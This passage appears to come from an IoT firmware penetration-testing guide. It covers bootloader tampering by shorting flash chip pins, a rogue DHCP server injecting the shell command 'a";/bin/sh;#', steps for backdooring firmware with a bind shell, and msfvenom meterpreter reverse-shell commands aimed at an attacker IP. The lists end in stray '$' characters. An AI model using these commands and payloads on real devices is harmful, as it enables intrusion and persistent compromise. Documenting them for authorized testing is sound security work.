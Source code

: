   * loading arbitrary kernels
  * booting from untrusted sources  
* \*Use caution: Connect one pin to ground, watch device boot up sequence, before the kernel decompresses, short/connect the grounded pin to a data pin \(DO\) on an SPI flash chip 
* \*Use caution: Connect one pin to ground, watch device boot up sequence, before the kernel decompresses, short/connect the grounded pin to pins 8 and 9 of the NAND flash chip at the moment U-boot decompresses the UBI image
  * \*Review the NAND flash chip’s datasheet prior to shorting pins
* Configure a rogue DHCP server with malicious parameters as input for a device to ingest during a PXE boot
  * Use Metasploit’s \(MSF\) DHCP auxiliary server and modify the ‘`FILENAME`’ parameter with command injection commands such as `‘a";/bin/sh;#’` to test input validation for device startup procedures.

\*Hardware security testing

#### Firmware integrity testing

Attempt to upload custom firmware and/or compiled binaries for integrity or signature verification flaws. For example, compile a backdoor bind shell that starts upon boot using the following steps.

1. Extract firmware with firmware-mod-kit \(FMK\)
2. Identify the target firmware architecture and endianness
3. Build a cross compiler with Buildroot or use other methods that suits your environment
4. Use cross compiler to build the backdoor
5. Copy the backdoor to extracted firmware /usr/bin
6. Copy appropriate QEMU binary to extracted firmware rootfs
7. Emulate the backdoor using chroot and QEMU
8. Connect to backdoor via netcat
9. Remove QEMU binary from extracted firmware rootfs
10. Repackage the modified firmware with FMK
11. Test backdoored firmware by emulating with firmware analysis toolkit \(FAT\) and connecting to the target backdoor IP and port using netcat
12. $$$$$$$$$$$$$

If a root shell has already been obtained from dynamic analysis, bootloader manipulation, or hardware security testing means, attempt to execute precompiled malicious binaries such as implants or reverse shells. Consider using automated payload/implant tools used for command and control \(C&C\) frameworks. For example, Metasploit framework and ‘msfvenom’ can be leveraged using the following steps.

1. Identify the target firmware architecture and endianness
2. Use `msfvenom` to specify the appropriate target payload \(-p\), attacker host IP \(LHOST=\), listening port number \(LPORT=\) filetype \(-f\), architecture \(--arch\), platform \(--platform linux or windows\), and the output file \(-o\). For example, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. Transfer the payload to the compromised device \(e.g. Run a local webserver and wget/curl the payload to the filesystem\) and ensure the payload has execution permissions
4. Prepare Metasploit to handle incoming requests. For example, start Metasploit with msfconsole and use the following settings according to the payload above: use exploit/multi/handler,
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #attacker host IP`
   * `set LPORT 445 #can be any unused port`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. Execute the meterpreter reverse 🐚 on the compromised device
6. Watch meterpreter sessions open
7. Perform post exploitation activities
8. $$$$$$$$$$$$$$$$
